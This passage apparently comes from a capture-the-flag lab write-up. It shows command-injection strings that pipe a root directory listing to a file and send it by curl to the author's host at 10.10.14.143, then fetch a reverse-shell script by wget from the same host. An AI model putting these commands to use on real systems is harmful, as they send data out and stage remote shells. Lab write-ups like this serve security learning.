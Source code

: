 Now I just needed something to get the output from commands that printed data in multiple lines, like ``ls -al``.

### {Command} + Piped output + Curl POST

I though I could pipe the command's output to a file and then send the file to my machine with the previous method. The code was:

```py
cmd = "ls -al / > /tmp/tmp1; curl --form 'filename=@/tmp/tmp1' 10.10.14.143:8001"
```

*List of the root directory*

![Img](/assets/posts_details/Canape/images/root_dir.png "Img")

### Getting a reverse shell

I grew tired of these methods and decided to get a shell (simple reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)):

1. Get the code using wget and store the file in ``/tmp`` (where we have write permissions). I needed to do ``which curl`` to get the path of the executable, otherwise it wouldn't work.

```py
cmd = "cd /tmp; /usr/bin/wget 10.10.14.143:8002/shell.py;"
```
